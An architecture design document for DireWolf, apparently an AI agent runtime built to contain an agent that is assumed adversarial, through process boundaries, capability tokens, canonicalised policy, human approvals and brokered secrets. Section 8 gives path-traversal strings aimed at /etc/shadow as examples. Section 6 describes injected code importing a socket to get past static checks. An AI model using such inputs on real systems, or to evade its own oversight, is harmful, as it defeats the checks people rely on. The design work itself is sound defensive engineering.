





# DireWolf Architecture

**Status:** Phase 0 — accepted design, not yet implemented.
**Audience:** implementers, security reviewers, contributors.

---

## 1. Product goals

| Goal | Meaning | How we will know |
|------|---------|------------------|
| G1 Bounded autonomy | An agent can run for hours without supervision *and* a reviewer can state exactly what authority it held | Every run has a printable effective-capability set, frozen at admission |
| G2 Structural containment | A fully compromised model or runtime process does not compromise the host | Security eval suite: 30+ escape probes, all contained |
| G3 Model agnosticism | Swapping providers changes config, not core code | `grep -r <provider> core/` returns nothing outside `providers/` |
| G4 Local-first | Full core function with no cloud service other than a model endpoint; local models make even that optional | `direwolf` works air-gapped with Ollama |
| G5 Inspectability | Any action can be explained after the fact: why it ran, what it saw, who allowed it | Replay reconstructs context manifests and policy decisions |
| G6 Recoverability | Process death is a pause, not a loss | `kill -9` mid-run; resume continues, or fails closed with a stated reason |
| G7 Measurability | Superiority claims are evidence-backed or not made | [BENCHMARKS.md](BENCHMARKS.md) methodology, published raw results |

## 2. Non-goals

**Standing non-goals — not "later", but *no*:**

- **Not a framework you write agents in.** DireWolf is a runtime you run agents on. No decorator DSL that captures your program's structure.
- **Not a LangChain / LangGraph / Agents-SDK consumer.** They may be interoperated with; they may not sit under the core loop.
- **Not enterprise multi-tenant SaaS.** Single-operator trust domain. Multi-user is a deployment topology, not an identity product. No SSO, no billing, no org hierarchy.
- **Not Kubernetes-native.** It must run well as one process tree on one laptop. Distribution is optional forever.
- **Not self-modifying.** The agent may not edit DireWolf's policy files, kernel, or its own capability set. This is permanent, not a V1 limitation.
- **Not a general workflow orchestrator.** We will not grow into Airflow/Temporal.

**V1 non-goals** (deferred, extension points reserved): see [ROADMAP.md](ROADMAP.md) §Deferred.

## 3. Architectural principles

1. **Authority is granted by deterministic code, never by inference.** An LLM is an untrusted planner with a good success rate.
2. **The trust boundary is a process boundary.** In-process permission checks protect against mistakes, not adversaries. If the checker and the checked share an address space, the check is advisory.
3. **Credentials define the enforcement point.** Put the credential where the meter, the policy and the audit record are. Anything that must be counted must be brokered.
4. **Attenuation is monotonic.** Authority only decreases along a delegation chain. There is no upgrade path that does not pass through a human.
5. **Provenance is data, and it survives transformation.** Every byte entering context carries a trust label; the label propagates to derivatives.
6. **Fail closed, and say why.** A denial that cannot be explained is a bug.
7. **Smallest privileged surface.** The privileged process is small, statically linked, few dependencies, heavily fuzzed. Everything else can be big and fast-moving.
8. **Prefer boring durable state.** SQLite and an append-only log beat a distributed system you cannot debug at 3am.
9. **Extension points, not extensions.** V1 defines interfaces for browser/plugins/workers and ships almost none of them.
10. **Anything the kernel reads from the runtime and then decides on is authority the runtime holds.** A decision input stored where the constrained process can write it is not a constraint. This applies to every field policy matches on — not only to capability tokens.

> Principle 10 is stated separately because it is the easiest one to violate by accident. It is not enough for *capabilities* to be unforgeable: if the kernel asks the runtime "is this run tainted?" and believes the answer, then taint is a field the runtime controls, and every rule conditioned on it is advisory. The same applies to `origin`, `privacy_class`, workspace sensitivity, the active skill set, skill trust levels, and artifact and memory provenance. All of them live in `kernel.db` and are derived kernel-side. See [DATA_MODEL.md](DATA_MODEL.md) §1.

---

## 4. Component diagram



### Component responsibilities

**Edge plane**

- *Transport* — connection lifecycle, framing, backpressure, heartbeats. Knows nothing about agents.
- *Client AuthN* — authenticates the *human/client*, not the agent. Produces a `principal`.
- *Idempotent Ingress* — deduplicates external deliveries on `(channel_id, external_id)` before anything is queued.
- *Channel Adapters* — translate a channel's message model into DireWolf messages and declare channel capabilities as data.
- *Session Router* — maps `(principal, channel, thread)` to a session; creates or resumes.

**Cognition plane**

- *Session/Run Coordinator* — owns the single-writer invariant; holds the per-session mailbox and lease.
- *Agent Loop* — the run state machine; turns inputs into model calls and tool intents.
- *Context Engine* — deterministic assembly of what the model sees, under a token budget, emitting a `ContextManifest`.
- *Planner / Task Graph* — decomposition into a persisted DAG; owns fan-out/fan-in.
- *Model Router* — **proposes** a model; the kernel decides whether that upstream is permitted.
- *Provider Adapters* — shape provider-specific requests/responses. No credentials, no sockets.
- *Memory Engine* — retrieval, candidate proposal, promotion requests, consolidation.
- *Skill Resolver* — selects and loads skills; computes the capability intersection.
- *Subagent Orchestrator* — spawns child runs, requests attenuated capabilities, joins results.
- *Tool Broker Client* — the **only** egress from cognition to authority. One socket, one protocol.

### The authority plane is two processes, not one

A single `dwkd` holding policy, capabilities, approvals, budgets, secrets, filesystem, exec, sandbox supervision, network egress, model egress *and* artifact capture is a monolith with a security label. It also directly violates principle 7: artifact capture means MIME sniffing and structure-aware excerpting of **attacker-chosen content** ([TOOL_SYSTEM.md](TOOL_SYSTEM.md) §6), and running that in the same address space as the plaintext credentials and the capability MAC key is the opposite of "small, statically linked, few dependencies."

So the authority plane splits along the line between *deciding* and *doing*:

| `dwkd-authority` — decides | `dwkd-broker` — does |
|---|---|
| Request Canonicaliser | Filesystem Broker |
| Policy Engine | Exec Broker |
| Capability Broker | Sandbox Supervisor (container API client) |
| Approval Registry | Network Egress (proxy + `net.http`) |
| Budget Ledger | Model Egress (streaming, provider parsing) |
| Secret Broker (resolution) | Artifact capture (MIME, excerpt, redact) |
| Audit Log | |
| **Holds:** `kernel.db`, `audit.log`, the token MAC key, secret material | **Holds:** fds, PIDs, sockets, containers. **No long-lived key.** |
| **Contains no parser for hostile content, no network stack, no container client** | Contains all of those |

The runtime talks only to `dwkd-authority`. Authority evaluates, then hands the broker a **per-invocation authorisation**: a canonical action, a one-shot secret injection if one was granted, and an obligation set. The broker cannot decide anything; it cannot mint a capability, create an approval, or read a secret it was not handed. A memory-safety bug in the HTML excerpter reaches the broker's address space, which contains no credentials and no key.

This is what makes principle 7 true rather than aspirational — `dwkd-authority` is plausibly 8–10 k lines with a genuinely small dependency set, and it is the thing worth fuzzing as a unit. It is also what makes [ADR-0001](adr/0001-language-and-runtime.md)'s Rust argument proportionate: the component being defended is now small enough for "minimal, auditable dependency set" to be a fact rather than an aspiration.

**Authority plane** (`dwkd-authority` + `dwkd-broker`)

- *Request Canonicaliser* — turns a tool invocation into a canonical, resolved, hashable action: paths to inodes, hostnames to IP sets, argv to a normal form.
- *Policy Engine* — pure function over canonical action + context → decision + explanation. Implemented at M3c in two phases: ordered first-match rules produce a provisional decision, then a small closed set of postconditions may only narrow it ([ADR-0038](adr/0038-policy-evaluation-phases-and-composition.md)). No I/O, no clock, no randomness; it is handed policy *text* rather than a path, so reading the operator's file stays outside it.
- *Capability Broker* — mints, attenuates and verifies capability tokens; enforces the ⊑ lattice.
- *Approval Registry* — stores, matches, expires and burns human approvals bound to canonical actions.
- *Budget Ledger* — hierarchical reservations for time, tokens, money, calls, bytes.
- *Secret Broker* — resolves credential handles and injects values at the last possible moment.
- *Provenance Tracker* — derives and owns `taint_level`, artifact trust labels and memory provenance. The kernel sees **every** byte crossing TB1→TB2 (it performs every tool call and creates every artifact), so it has strictly more information than the Context Engine does, and unlike the Context Engine it cannot be asked to lie.
- *Audit Log* — append-only, hash-chained security record. Written by authority only; the broker returns outcomes and never writes it.

**Broker plane** (`dwkd-broker` — executes, decides nothing)

- *Filesystem Broker* — file operations via fd-relative access under a pinned root fd handed to it by authority.
- *Exec Broker* — spawns processes with a verified executable, scrubbed environment, resource limits.
- *Sandbox Supervisor* — creates/destroys execution environments, applies isolation profiles, re-attaches by run-id label after a container-runtime restart.
- *Network Egress* — the CONNECT proxy serving `PROXY_ONLY` sandboxes, and the kernel-performed `net.http`.
- *Model Egress* — renders the provider request from a declarative profile, performs the HTTPS call, streams, extracts usage.
- *Artifact capture* — MIME classification, structure-aware excerpting, redaction, CAS write.

The broker holds fds, PIDs, sockets and containers. It holds **no long-lived key**, cannot mint a capability, cannot match or create an approval, cannot evaluate policy, cannot read `kernel.db` or the keychain, and cannot write `audit.log`. It receives a per-invocation authorisation — canonical action, obligations, and a one-shot secret injection where one was granted — and performs exactly that. See [ADR-0018](adr/0018-authority-broker-split.md).

---

## 5. Trust boundary diagram



### Boundary crossing rules

| Crossing | Rule |
|----------|------|
| TB0 → TB1 | Content enters as data only, never as a control channel. MCP tool *descriptions* are untrusted text, not instructions. |
| TB1 → TB2 | Output is size-capped, secret-scrubbed, MIME-typed, trust-labelled, spilled to artifacts above threshold. |
| TB2 → TB4 | **The only crossing with authority semantics.** Typed protocol over a Unix domain socket / named pipe with peer credential verification. Every message carries a capability token. |
| TB4 → TB1 | Kernel spawns and constrains; secrets injected into the child, never returned upward. |
| TB5 → TB4 | Approvals and policy arrive out-of-band relative to the runtime; the runtime cannot forge, replay or relay them. |
| TB4 → TB2 | Decisions, metered usage, redacted results. Never plaintext long-lived credentials. |

**Assumed-compromised list.** At various times the design assumes: the model is adversarial; the runtime process is executing arbitrary code; a sandbox has escaped to sandbox-user privilege; an MCP server is malicious; a runtime dependency is backdoored. It does **not** assume the kernel or host OS is compromised — that is the residual risk floor ([THREAT_MODEL.md](THREAT_MODEL.md) §Residual risks).

---

## 6. Module / package boundaries

```
direwolf/
├── crates/                      # Rust workspace - trust level is per crate, not per directory
│   ├── dwkd-authority/          # DECIDES. The TCB: policy, capabilities, approvals,
│   │                            #   budgets, secrets, audit. Holds kernel.db, audit.log,
│   │                            #   the token MAC key. No hostile-content parser, no
│   │                            #   network stack, no container client.  [M3]
│   ├── dwkd-broker/             # DOES. fds, PIDs, sockets, containers; fs/exec/sandbox/
│   │                            #   egress/model-egress/artifact capture. No long-lived
│   │                            #   key. Not addressable from the cognition plane.  [M4, M5]
│   ├── direwolf-cli/            # The `direwolf` binary. Presentation; holds no authority.
│   └── dwk-proto/               # The wire contract: framing, strict JSON, RFC 8785, envelope,
│                                #   message types, operation inventory. No behaviour, no I/O.
│                                #   The ONE crate both daemons may link; in the authority
│                                #   dependency closure from M3 (ADR-0032, ADR-0033).
│
│   # Other shared crates - dwk-policy, dwk-capability, dwk-fs, dwk-net, ... - are created
│   # when they have contents, not before (ADR-0031), and are not [crates].shared.
│
├── runtime/                     # Python package - cognition, UNTRUSTED
│   └── src/direwolf/
│       ├── proto/               # GENERATED from schemas/ - never hand-edited
│       ├── wire/                # strict JSON, RFC 8785, framing, envelope decode (stdlib)
│       ├── kernelclient/        # the ONLY module permitted to open the kernel socket [M3]
│       ├── loop/ context/ providers/ routing/ memory/ tools/ mcp/ skills/
│       └── orchestration/ session/ store/ events/ obs/          [M7-M16]
│
├── tools/dwcheck/               # Architecture boundary checker (hygiene, not containment)
├── tools/protogen/              # Emits schemas/ and docs/DWKP_OPERATIONS.md from dwk-proto
├── schemas/                     # Cross-language schemas, emitted from dwk-proto
├── scripts/gen_proto_python.py  # schemas/ -> runtime/src/direwolf/proto/
├── fuzz/                        # cargo-fuzz targets for dwk-proto (own workspace, nightly)
├── tests/architecture/          # Boundary rules and quality gates, proved against fixtures
├── tests/protocol/              # Cross-language golden vectors and their V8 oracle
├── evals/                       # Eval + security-eval harness                     [M2.5]
├── gateway/                     # Python package - edge                            [M19]
├── web/                         # TypeScript - zero runtime authority              [M27]
├── architecture.toml            # The boundary rules, as data
└── docs/
```

Directories marked `[Mn]` do not exist yet; the milestone that creates them is
named so that an absent directory is a schedule rather than an omission. The
Rust workspace root is `crates/` rather than `kernel/` because two of its three
crates are deliberately *not* the TCB, and a directory name that asserts a trust
level its contents do not share is how a wrong assumption gets made later
([ADR-0031](adr/0031-repository-layout-and-boundary-enforcement.md)).

### Enforced boundary rules — CI-checked, not conventions

Declared in `architecture.toml`, enforced by `dwcheck` (`make arch`), and each
one proved against a deliberately-invalid fixture tree in
`tests/architecture/` — a rule that has never rejected anything is not a rule
([ADR-0031](adr/0031-repository-layout-and-boundary-enforcement.md)).

| Rule | Check |
|------|-------|
| Only `direwolf.kernelclient` may open the kernel socket | `dwcheck imports` — banned modules with a single path exemption |
| The runtime imports no socket, subprocess, HTTP client, `ctypes` or privilege syscall | `dwcheck imports` |
| Provider names appear only under `providers/` | `dwcheck imports` — text rule over `runtime/src` |
| No autonomous-agent framework, as an import or as a dependency | `dwcheck imports`, `dwcheck deps` |
| `dwkd-authority`, `dwkd-broker` and the CLI do not depend on each other | `dwcheck deps` — Cargo graph |
| Everything in `dwkd-authority`'s **transitive** closure is allowlisted — and `dwk-proto`'s, which it links from M3; dev-dependencies excluded | `dwcheck deps` — manifest (RS004) and `Cargo.lock` (RS006) |
| No crate other than `dwk-proto` is linked by both daemons, and `dwk-proto` links no in-tree crate | `dwcheck deps` — RS008, RS009 |
| `dwk-proto` source names no `std::fs`/`net`/`process`/`env`/`os` and no `unsafe` | `dwcheck imports` — text rule TX002 over `.rs` |
| Licences, advisories, banned crates, duplicate versions, source registries | `cargo deny check` |
| Python advisories | `pip-audit` |
| `schemas/`, `docs/DWKP_OPERATIONS.md` and `proto/` Python are generated, never hand-edited | `make schema-check` — regenerates and compares; required CI job |

> **These checks are development hygiene. They are not a security boundary.**
>
> Every one of them is static analysis over source text. A prompt-injected
> `exec()` inside the runtime can call `__import__('socket')` and no rule here
> will ever run. `direwolf.kernelclient` *must* open a Unix socket — that is its
> whole job — so the rule bans those imports everywhere except that module, and
> a static exemption is not a runtime constraint either.
>
> **The actual controls are the OS process and privilege boundary between the
> runtime and `dwkd-authority`, the absence of a network route on the runtime
> identity, and the absence of any credential in the runtime's address space.**
> These rules stop the architecture eroding through ordinary development, which
> is a real and different job. An earlier draft had the two the wrong way round.


---

## 7. Runtime execution flow

```mermaid
sequenceDiagram
  autonumber
  participant U as Client
  participant GW as Gateway
  participant CO as Session Coordinator
  participant L as Agent Loop
  participant CE as Context Engine
  participant K as Kernel
  participant P as Provider upstream

  U->>GW: message (external_id)
  GW->>GW: dedupe on (channel, external_id)
  GW->>CO: Inbound(session_key, principal, payload)
  CO->>CO: acquire session lease (single writer)
  CO->>K: AdmitRun(agent_id, requested_caps, budget)
  K->>K: policy preflight, mint capabilities, reserve budget
  K-->>CO: RunGrant{cap_set, budget_lease, run_id, epoch}
  Note over CO,K: Effective authority is FROZEN here.<br/>Nothing later in the run can widen it.
  CO->>L: start(run_id, grant)
  loop until terminal
    L->>CE: assemble(budget)
    CE-->>L: ContextBundle + ContextManifest (persisted)
    L->>K: ModelCall(request, NO credential)
    K->>K: check privacy_class vs upstream; reserve budget
    K->>P: HTTPS + injected credential
    P-->>K: stream
    K->>K: meter usage, debit ledger, audit
    K-->>L: stream (relayed)
    alt model requests tools
      L->>K: ToolInvocation[] + capability tokens
      K-->>L: results / denials / approval-pending
    else final answer
      L->>CO: complete
    end
  end
  CO->>K: ReleaseRun(run_id)
  CO->>GW: final + usage
```

**Key point at steps 10–14:** the runtime never holds the provider credential and cannot reach the provider directly. Metering is therefore mandatory rather than cooperative, and privacy routing is enforced rather than intended.

### Turn-level rules

- **Parallel tool calls** dispatch concurrently only if every call in the batch is side-effect class `PURE` or `READ`. Any `WRITE` / `DESTRUCTIVE` / `EXTERNAL` call serialises the batch and executes in declaration order.
- **Partial failure**: a failed tool does not abort the run; it returns a structured error the model can react to. A **denied** tool returns the denial *plus the approval shape that would satisfy it* — deliberately model-readable, so the agent can ask the human precisely instead of guessing.
- **Loop detection**: rolling hash of `(tool, canonical_args)` over a window; N identical no-progress repeats → `REPETITION` fault → one forced reflection turn → then fail.
- **Cancellation**: a flag checked at every await point. In-flight side effects are *not* killed mid-write; they are settled to a known state or marked `UNKNOWN` (see §31).

---

## 8. Tool call flow — the critical path



Steps D through Q run entirely inside the kernel. The runtime observes only the outcome.

**Why canonicalisation precedes policy.** Policy must never match on model-supplied strings. `../../etc/shadow`, `/proc/self/root/etc/shadow`, a symlink, and a bind mount can all name the same inode; a rule that matches text can be bypassed by spelling. Canonicalisation resolves to an *identity* — inode+device, or a resolved IP set — and policy matches identities.

## 9. Policy flow

```
decide(request) -> Decision

request  = { principal, agent_id, parent_agent_id, session_id, run_id,
             tool, canonical_args, required_capability, workspace_id,
             resolved_paths[], resolved_hosts[], resolved_ips[],
             credential_handles[], environment_id, side_effect_class,
             risk_class, taint_level, budget_snapshot, mode_profile,
             origin (interactive|scheduled|channel|subagent) }

*(M3b note: the capability half of this — the typed vocabulary, `⊑`, set
containment and attenuation — is implemented in `dwkd-authority`'s capability
core. The policy half is M3c, and the two gates stay independent: a capability
answers "is this authority shape contained by that one?", never "should this be
allowed?".)*

Decision = { effect: ALLOW | DENY | REQUIRE_APPROVAL,
             rule_id, rule_source (file:line), reason,
             required_capability, satisfying_approval_shape,
             obligations[] }
```

- Ordered rule list, **deny by default**, first match wins, a `default` rule is mandatory and validated at load.
- Rules are data (TOML), not code: no loops, no user functions, no Turing completeness. [POLICY.md](POLICY.md) gives the grammar and the explicit trigger conditions under which we would reconsider a DSL.
- `obligations[]` let a rule attach requirements to an ALLOW — `require_artifact_capture`, `force_sandbox=strict`, `max_output_bytes=65536`, `redact_profile=aggressive`.
- Every decision is audited with its `rule_source`. `direwolf policy explain <run_id>` replays them.

## 10. Approval flow



**Explicitly forbidden patterns**

- *"Allow shell forever."* There is no unbounded grant primitive. The closest thing is a `StandingGrant`: a first-class, listed, revocable, expiring object with a narrow binding predicate and its own audit trail.
- *Approval reuse across agents.* `agent_id` is inside the binding; a subagent cannot spend its parent's approval.
- *Approving "the action the model described."* The prompt is rendered from canonical data only — never from model prose.

## 11. Secret flow

```
Model / Runtime sees:  "github-primary"              an opaque handle
Policy sees:           secret.use:github-primary     a capability
Kernel resolves:       OS keychain / age-encrypted store -> plaintext, kernel memory only

Injection modes:
  (A) EGRESS_INJECTION   proxy adds the auth header for an allowlisted host   <- DEFAULT for HTTP APIs
  (B) ENV_AT_SPAWN       env var on the sandboxed child only
  (C) FD_AT_SPAWN        written to an fd / tmpfs file, 0600, unlinked after read
  (D) PLAINTEXT_TO_MODEL forbidden by default; explicit config + per-use approval

Return path:           all tool output passes the redaction index before crossing TB1 -> TB2
```

Mode (A) is strongest: the secret never exists in any process the agent can influence. [SECRETS.md](SECRETS.md) covers the honest limits of output redaction.

---

## 12. Session lifecycle

```
CREATED -> ACTIVE <-> IDLE -> ARCHIVED -> (export) -> DELETED
```

- A session owns a message history, a digest chain, a workspace binding, usage accounting and a lease.
- Addressed by `session_key = (principal, channel, thread_ref)`. Cross-channel continuity is an explicit `link` operation, never implicit — implicit cross-channel merging is a data-leak primitive.
- **Exactly one writer** (§15).
- Archival compacts the transcript to a `SessionDigest` plus artifact references; it never discards approvals, audit records or budget history.

## 13. Run lifecycle

The flat state list proposed in the original brief (`WAITING_MODEL`, `WAITING_TOOL`, `WAITING_APPROVAL`, `WAITING_SUBAGENT` as peer states) does not survive contact with parallelism: a run can simultaneously await one model call, three tools and two subagents. A single-valued enum cannot express that, and a state per blocker produces combinatorial transitions.

**We split it into two orthogonal dimensions.**

### (a) Lifecycle state — authoritative, persisted, single-valued



- `ADMITTED` is a real state, not a formality: it is where authority is frozen and budget reserved. Re-entering it on resume forces re-preflight, so **a resumed run cannot outlive a revoked capability**.
- `DRAINING` is where cancellation lives: no *new* side effects may start; in-flight ones are settled or marked `UNKNOWN`; tool-registered compensations run here.
- `EXPIRED` distinguishes "we chose to stop" from "we lost the right to resume".

### (b) Wait set — derived, multi-valued, not a state

```
WaitSet = { Awaitable{ kind: model|tool|approval|subagent|timer|human|lease,
                       id, since, deadline, blocking } }
```

A run is *blocked* iff `WaitSet ≠ ∅` and no step is runnable. `direwolf run status` prints the wait set, which is what an operator actually wants to know: "waiting on your approval for 2 things and a subagent."

**Fault classes** (attached to `FAILED`, drive retry policy): `MODEL_ERROR`, `TOOL_ERROR`, `POLICY_DENIED`, `BUDGET_EXHAUSTED`, `TIMEOUT`, `REPETITION`, `INTERNAL`, `UNRECOVERABLE_SIDE_EFFECT_UNKNOWN`.

## 14. Task lifecycle (inside a run's DAG)

```
PENDING -> READY -> RUNNING -> { SUCCEEDED | FAILED | SKIPPED }
                    RUNNING -> BLOCKED      (UNKNOWN outcome, awaiting reconciliation)
```

Compensation states are **cut from V1** — no V1 tool has a meaningful inverse ([WORKFLOWS.md](WORKFLOWS.md) §3). `UNKNOWN` plus explicit reconciliation is the mechanism that replaces it.

`READY` = dependencies satisfied and a slot available. `SKIPPED` carries a reason (dependency failed / branch not taken / budget). Tasks are persisted rows, so a resumed run replays the graph, not the reasoning.

---

## 15. Concurrency strategy

**The problem:** two Telegram messages, a scheduler tick and a CLI command can hit the same session in the same second.

**V1 decision — single-writer session actors with a database lease and fencing.**

1. **Mailbox.** Every inbound item lands in an ordered, persisted mailbox. Ingress is idempotent on `(channel_id, external_id)` via a unique index, so redelivery is free.
2. **Lease.** The session row carries `lease_owner`, `lease_epoch`, `lease_expiry`. Acquisition is one conditional update:
   ```sql
   UPDATE sessions SET lease_owner=?, lease_epoch=?, lease_expiry=?
   WHERE id=? AND (lease_owner IS NULL OR lease_expiry < :now)
   ```
   Exactly one process wins. Cross-process safety with no lock service.
3. **The kernel is the epoch authority.** The epoch written above is *not* computed by the runtime — it is obtained from the kernel (`AcquireLease → {epoch}`), which holds the authoritative monotonic counter per session in `kernel.db`.

   This matters because `runtime.db` is runtime-writable. If the epoch the kernel checks against lived only in a table the constrained process can write, a compromised runtime would simply set its own epoch high and defeat fencing entirely. The kernel-side counter is the real lease; the `sessions` row is a cache the runtime uses to coordinate with itself.
4. **Single writer.** Only the lease holder mutates session state; everything else enqueues.
5. **Optimistic revisions.** Every mutable entity has `revision`; writes are `WHERE revision = ?`. A lost update is an error, never a silent overwrite.
